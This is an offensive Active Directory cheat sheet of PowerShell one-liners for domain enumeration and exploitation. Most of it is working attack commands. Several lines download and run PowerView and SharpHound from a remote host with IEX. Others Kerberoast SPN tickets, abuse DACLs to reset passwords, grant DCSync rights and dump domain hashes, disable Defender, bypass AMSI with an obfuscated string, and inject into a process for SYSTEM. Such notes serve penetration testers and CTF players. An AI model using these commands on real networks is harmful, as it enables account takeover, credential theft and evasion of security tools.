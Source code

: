 ```yaml
---
description: >-
  This is just a living document of things I have needed for domain
  enumeration/exploitation
---
```


# Domain Enumeration + Exploitation

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheat sheet, [check out HarmJ0y's](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Get Domain Users

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

### Get Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### Enumerate User DACLs

```text
PS C:\> Get-DomainObjectAcl -Identity it_admin -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID burmat) }

AceType               : AccessAllowed
ObjectDN              : CN=it_admin,CN=Users,DC=BURMAT,DC=CO
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2736429227-4547413232-2815246478-1130
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2736429227-4547413232-2815246478-1107
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

### Reset Domain User Password

If you own the owner of another AD user object \(`WriteOwner`, `WriteDACL`, `GenericWrite`, `Owner`, etc\), you can reset the password with ease:

```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')

$user = 'DOMAIN\owner_acct'; 
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force; 
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;

$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force; 

Set-DomainUserPassword -Identity 'DOMAIN\vuln_user' -AccountPassword $newpass -Credential $creds;
```

Or if you can set yourself as owner, the following will do:

```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
```

### Add/Exploit DCSync Rights

Do you have `WriteDACL` to a domain? Give DCSync rights to an unprivileged domain user account:

`Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync`

And use these rights to dump the hashes from the domain:

`meterpreter > dcsync_ntlm BURMATCO\\useracct1`

## BLOODHOUND

### Ingestor Launch

```text
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod All -CompressData -SkipPing;
```

## EVADING AV

### Turning Off Defender's RTM

`PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus`

### AMSI Bypass

```text
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

## SeDebugPrivilege

If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM.  

One way of doing it, is using [decoder](https://twitter.com/decoder_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject:  

`. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864,'C:\temp\burmat443.exe');`

You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.

## REMOTE DESKTOP

### Enable RDP

```text
PS C:\> Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
PS C:\> Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
PS C:\> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

## MISCELLANEOUS 

```text
# list shared folders
PS> Get-WmiObject -Class Win32_Share -Computer dc1.burmat.co
```

